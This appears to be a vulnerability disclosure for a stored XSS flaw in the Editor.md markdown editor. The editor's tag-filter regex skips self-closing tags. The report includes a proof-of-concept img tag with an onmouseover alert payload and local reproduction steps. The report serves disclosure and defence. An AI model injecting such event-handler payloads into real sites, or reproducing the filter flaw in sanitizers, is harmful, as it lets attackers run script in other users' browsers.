 # Description

I would like to report XSS vulnerability in pandao/editor.md
Implemented Html tag filtering doesn't work for self clossing tags, leading to posible code injection on this elements

# Module
module name: Editor.md
version: all versions

# Module Description

Editor.md : The open source embeddable online markdown editor (component), based on CodeMirror & jQuery & Marked.

# Weekly Downloads

1,417

# Vulnerability Description

XSS in editor.md is avoided by using filterHTMLTags which uses a RegExp to replace possible dangerous content, unfortunetly the RegExp doesn't handle self clossing tags, making it possible to execute code


# POC

Insert in editor a self clossing element with event to execute code

  1. Download editor.md 
    `git clone https://github.com/pandao/editor.md`
  2. Go into directory
    `cd editor.md` 
  3. Make the content available with any web server
    `php -S localhost:8080`
  4. open http://localhost:8080/examples/html-tags-decode.html
  5. Filter code execution by clicking on Filter style,script,iframe|onclick,title,onmouseover,onmouseout,style
     (No code should be executed with this Filter)
  6. Insert element with payload usig the editor (New line is important):
     ````
     <img src="https://picsum.photos/200" style="position:fixed;left:0;top:0;width:200px;height:200px;z-index:100" onmouseover="alert('img execution...')"/>
     sss
     ```
  7. Code will be executed when passing the mouse over the image

# Impact
This could have enabled an attacker to execute code remotely if the content of the editor is saved and then retrieved by some other user
